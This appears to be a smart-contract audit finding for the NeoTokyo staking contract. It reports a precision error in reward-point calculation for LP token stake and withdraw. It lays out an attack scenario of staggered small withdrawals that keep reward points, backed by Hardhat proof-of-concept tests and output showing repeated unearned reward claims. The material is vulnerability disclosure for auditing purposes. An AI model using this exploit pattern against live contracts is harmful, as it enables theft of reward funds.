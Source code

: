 # Findings

## [H-01] - Critical Calculation error of points variable in Stake and Withdraw of LP Tokens

### Impact
When staking and withdrawing, the points variable is calculated using a formula. However, this formula can cause 2 problems in both stake and withdraw functions.
1.Withdrawing tokens less than 10^16 will not update the pool.totalPoints variable(since points is 0). Attackers can easily make use of this for getting more rewards.
2.Staking LP tokens of anything less than 10^16 will not accrue rewards.

### Proof of Concept
https://github.com/code-423n4/2023-03-neotokyo/blob/dfa5887062e47e2d0c801ef33062d44c09f6f36e/contracts/staking/NeoTokyoStaker.sol#L1155
https://github.com/code-423n4/2023-03-neotokyo/blob/dfa5887062e47e2d0c801ef33062d44c09f6f36e/contracts/staking/NeoTokyoStaker.sol#L1623

Let's discuss both the problems in detail-

1. Attack scenario which can lead to the attacker accruing excess funds
Let's see how an attacker can profit from some tokens:-
1.The attacker will first stake an amount of 0.05 * 10^18 LP tokens for 30 days
2.Then he waits for 30 days and withdraws 0.005 * 10^18 of tokens in 10 different transactions.
3.Theoretically, the attacker should have taken all of his amounts but due to the bug where pool.totalPoints is not updated correctly, the system will still show as 5 points for the attacker
4.Now, the attacker can simply call getReward() whenever he wants to and get free tokens.

Here's the test which proves my theory:-

it.only("Critical Precision error in stake and Withdraw", async () => {

			// Bob is the attacker
			// Bob stakes his LP tokens.
			await NTStaking.connect(bob.signer).stake(
				ASSETS.LP.id,
				TIMELOCK_OPTION_IDS['30'],
				ethers.utils.parseEther('0.05'),
				0,
				0
			);

			let priorBlockNumber = await ethers.provider.getBlockNumber();
			let priorBlock = await ethers.provider.getBlock(priorBlockNumber);
			let bobStakeTime = priorBlock.timestamp;
			let jumpTime = bobStakeTime + (60 * 60 * 24 * 30)
			await ethers.provider.send('evm_setNextBlockTimestamp', [
				jumpTime
			]);

			console.log("Bob Balance Before", Number(await NTBytes2_0.balanceOf(bob.address))/10**18)

			// removes his staked tokens slowly one by one
			for(let i =1; i<=10; i++){
				await NTStaking.connect(bob.signer).withdraw(
					ASSETS.LP.id,
					ethers.utils.parseEther('0.005')
				);
			}

			// Waits again for 30 days
			await ethers.provider.send('evm_setNextBlockTimestamp', [
				jumpTime + (60 * 60 * 24 * 30)
			]);

			console.log("Bob Balance after withdrawing all this LP tokens", Number(await NTBytes2_0.balanceOf(bob.address))/10**18)

			// Withdraws his rewards
			await NTCitizenDeploy.connect(bob.signer).getReward();

			console.log("Bob Balance After claiming reward", Number(await NTBytes2_0.balanceOf(bob.address))/10**18)

			// Again waits
			await ethers.provider.send('evm_setNextBlockTimestamp', [
				jumpTime + (60 * 60 * 24 * 60)
			]);

			// Again Withdraws
			await NTCitizenDeploy.connect(bob.signer).getReward();

			console.log("Bob Balance After claiming reward AGAIN after 30 days", Number(await NTBytes2_0.balanceOf(bob.address))/10**18)

		})
Here's the output

Testing BYTES 2.0 & Neo Tokyo Staker
    with example configuration
Bob Balance Before 6843
Bob Balance after withdrawing all this LP tokens 8298.005052083332
Bob Balance After claiming reward 9752.999999999996
Bob Balance After claiming reward AGAIN after 30 days 11207.999999999995
      √ Critical Precision error in stake and Withdraw
2.Now lets look at the second problem
The problem here is again with the points variable not calculated properly leading to a problem where any tokens less than 10^16 will not be able to accrue rewards
Let's confirm this with a test:-

it.only("Staking LP tokens less than 10**16 will not accrue rewards", async () => {

			// Bob stakes his LP tokens.
			await NTStaking.connect(bob.signer).stake(
				ASSETS.LP.id,
				TIMELOCK_OPTION_IDS['30'],
				ethers.utils.parseEther('0.009'),
				0,
				0
			);

			let priorBlockNumber = await ethers.provider.getBlockNumber();
			let priorBlock = await ethers.provider.getBlock(priorBlockNumber);
			let bobStakeTime = priorBlock.timestamp;
			await ethers.provider.send('evm_setNextBlockTimestamp', [
				bobStakeTime + (60 * 60 * 24 * 30)
			]);

			const balanceBefore = await NTBytes2_0.balanceOf(bob.address);

			await NTStaking.connect(bob.signer).withdraw(
				ASSETS.LP.id,
				ethers.utils.parseEther('0.009')
			);
			
			const balanceAfter = await NTBytes2_0.balanceOf(bob.address);
			expect(balanceAfter).to.eq(balanceBefore);

		})
And here's the output:-

Testing BYTES 2.0 & Neo Tokyo Staker
    with example configuration
      √ Staking LP tokens less than 10**16 will not accrue rewards

### Tools Used
Hardhat

### Recommended Mitigation Steps
Need to find a way to correctly calculate the points (for rewards) in stake and withdraw functions.